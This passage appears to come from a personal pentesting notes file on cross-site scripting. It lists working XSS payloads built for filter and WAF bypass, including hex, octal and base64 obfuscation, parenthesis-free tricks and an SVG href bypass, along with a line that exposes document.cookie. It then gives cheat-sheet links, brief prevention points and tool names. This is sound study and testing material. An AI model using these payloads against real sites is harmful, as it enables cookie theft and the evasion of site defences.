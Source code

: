 ```html
<a href="javascript:\x61lert">Click me</a>                          <!-- Obfuscation via HEX encoding -->
<a href="javascript:\141lert">Click me</a>                          <!-- Obfuscation via Octal encoding -->
<a href="javascript:&bsol;u0061lert(1)">Click me</a>                <!-- Obfuscation via multiple layer of encodings (HTML, Unicode) -->
<a href="data:;base64;PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>  <!-- XSS using <a href> tag and base64 payload-->

<!-- XSS without parentheses and semi-colons -->
onerror=alert;throw 1                                               
postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

<!-- Using SVG to bypass href filtering -->
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>

<!-- I've been using this payload for over a year to discover XSS via open redirect vulnerabilities that bypass WAF https://twitter.com/0xM5awy/status/1704433016427229581 -->
javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

```

Extensive cheat sheets can be found at:

- [Multi-purpose snippets - JS AWAE Prep](https://mlcsec.com/posts/js-awae-prep/)
- [[Evading Restrictions.md]]
- [Cross-Site Scripting (XSS) Cheat Sheet - 2022 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [javascript-bypass-blacklists-techniques](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#javascript-bypass-blacklists-techniques)
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
- [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
- `eval(atob("base64"))`
	- [eXtra Safe Security layers](../../Play%20ground/CTFs/eXtra%20Safe%20Security%20layers.md)
	- [Mutation Lab](../../Play%20ground/CTFs/Mutation%20Lab.md)
- [Bypass CSP using MIME sniffing](MIME%20sniffing.md#Bypass%20CSP%20using%20MIME%20sniffing)
- Bypass CSP using [JSONP](JSONP%20vulnerabilities.md#JSON%20with%20Padding%20(JSONP)) as a gadget [^CSP-JSONP]

[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33
# XSS Prevention [^1]

- **Filter input on arrival**
- **Encode data on output**
- **Use appropriate response headers**
- [Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md)

[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing

---

# Tools for XXS

- BeEF
- DOM Invader

[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)